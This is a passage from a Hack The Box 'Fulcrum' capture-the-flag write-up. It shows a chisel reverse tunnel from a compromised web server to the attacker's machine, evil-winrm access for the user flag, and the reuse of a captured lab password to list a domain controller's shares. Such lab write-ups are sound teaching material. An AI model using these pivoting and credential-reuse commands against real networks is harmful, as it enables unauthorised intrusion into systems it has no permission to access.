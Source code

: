 I used `chisel.exe` to forward port 5985 from `FILE`, since the password was kinda obvious in telling me the next step.

```
# on kali
./chisel server --port 5000 --reverse

# on webserver
.\chisel.exe client 10.10.14.19:5000 R:5985:192.168.122.132:5985
```

Then, I could `evil-winrm` in and finally grab the user flag:

![](../../../.gitbook/assets/htb-fulcrum-image-10.png)

## File --> DC

### Enumeration --> Shares

This `FILE` server was empty. Most of the file system was just default Windows. As such, I tried to use the credentials I had to access the shares on the DC, which was something the CRTE lab taught me to do.

```
C:\Users> net use \\dc.fulcrum.local\netlogon /user:fulcrum\btables ++FileServerLogon12345++

The command completed successfully.

C:\Users> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share
SYSVOL      Disk           Logon server share
The command completed successfully.
```
